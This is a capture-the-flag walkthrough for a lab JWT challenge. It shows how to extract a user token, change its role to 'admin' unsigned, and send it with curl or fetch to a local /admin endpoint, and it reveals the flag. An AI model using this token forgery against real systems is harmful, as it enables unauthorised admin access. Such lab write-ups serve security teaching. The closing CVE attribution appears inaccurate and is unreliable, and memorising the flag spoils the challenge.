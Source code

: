 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up/n
  •	Create an account to be automatically assigned the "user" role.

2. Login
  •	After account creation, you’ll be redirected to the login page.
  •	Use the same credentials to log in.
  •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
  a. Open the console:
    •	On MacOS, press (Option + Command + J).
    •	On Windows, press (Ctrl + Shift + J).
  b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
  c. Run the following command in the console to get the token:

     **localStorage.getItem('token');**
   
    •	You’ll see a token with three parts, each separated by a period (.).
  d. The token role will be "user" as per your credentials.
  e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
  a. Change the role to "admin".

    For example:
    {
      "username": "isabella",
      **"role": "admin",**
      "iat": 1738901843,
      "exp": 1738905443
    }
  b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
  c. Your JWT is now modified.

5. Send the Manipulated JWT to the Server (2 ways)
You can use one of the following methods to send the modified JWT to the server:

a. Using cURL (command line):
  •	Open your terminal and type:
  
    curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin

b. Using the Browser Console:
  •	Run this JavaScript:
  
    fetch("http://localhost:3000/admin", {
        method: "GET",
        headers: {
            "Authorization": "Bearer MANIPULATED-JWT"
        }
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error("Error:", error));

6. Access the Admin Endpoint and Retrieve the Flag
a. The server will decode the manipulated token and grant admin access.
b. The server will respond with the flag:

   {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
